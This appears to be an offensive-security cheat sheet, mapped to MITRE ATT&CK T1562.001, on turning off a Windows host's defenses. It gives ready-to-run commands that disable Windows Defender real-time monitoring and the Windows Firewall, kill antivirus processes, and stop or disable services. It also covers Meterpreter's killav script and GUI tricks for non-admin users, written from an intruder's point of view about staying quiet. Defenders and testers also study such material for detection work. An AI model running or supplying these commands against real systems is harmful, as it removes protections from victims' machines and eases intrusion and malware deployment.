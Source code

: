 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.001
---
```


# Disable or Modify Tools

## Disable real-time monitoring for Windows Defender

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Disable Windows Firewall

```powershell
netsh advfirewall set allprofiles state off
```

## Manually Disable Antivirus

```powershell
Taskkill /F /IM avprocess.exe
```

## Stop an Antivirus Service

```powershell
net stop "$service_name"
```

## Disable a Windows Service

```powershell
sc config "service name" start= disabled
```

## Meterpreter Killav

Meterpreter has a built-in script that will attempt to kill any antivirus identified on the device. I've had mixed results with this but if you're not trying to be quiet then this is sometimes an easy win:

```bash
run killav
```

## Disable AntiVirus via the GUI

Non-administrative users are sometimes able to disable or create an exception for the antivirus running on the host via the GUI. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
